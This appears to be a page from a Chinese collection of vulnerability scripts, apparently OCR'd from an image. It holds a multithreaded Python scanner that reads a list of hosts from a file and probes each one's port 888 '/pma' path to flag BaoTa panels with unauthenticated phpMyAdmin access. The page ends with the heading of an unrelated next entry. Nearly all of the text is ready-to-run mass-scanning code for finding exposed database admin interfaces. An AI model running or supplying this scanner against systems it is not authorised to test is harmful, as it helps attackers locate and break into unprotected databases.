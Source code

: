 ### 漏洞脚本

```
from queue import Queue
import threading
import requests

queue = Queue()


def bt_unauthorized(q):
    headers ={
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36"
    }
    while True:
        if q.qsize() != 0:
            d = q.get()
            url = d.split(":")[0]
            url = "http://"+url+":888/pma"
            try:
                re = requests.get(url,headers=headers, verify=False,timeout=4)
            except:
                continue
            if re.status_code == 200 and "phpMyAdmin" in re.text:
                print("[+]存在宝塔phpmyadmin未授权漏洞: "+url)
            else:
                pass
        else:
            break


def main():
    global queue
    n = 20
    with open("./url.txt","r",encoding="utf-8") as f:
        lines = f.readlines()
    for i in lines:
        queue.put(i)

    threads = []
    for i in range(n):
        threads.append(threading.Thread(target=bt_unauthorized, args=(queue,)))

    for i in range(n):
        threads[i].start()
    for i in range(n):
        threads[i].join()
if __name__ == '__main__':
    main()
```
## 天融信数据防泄漏系统
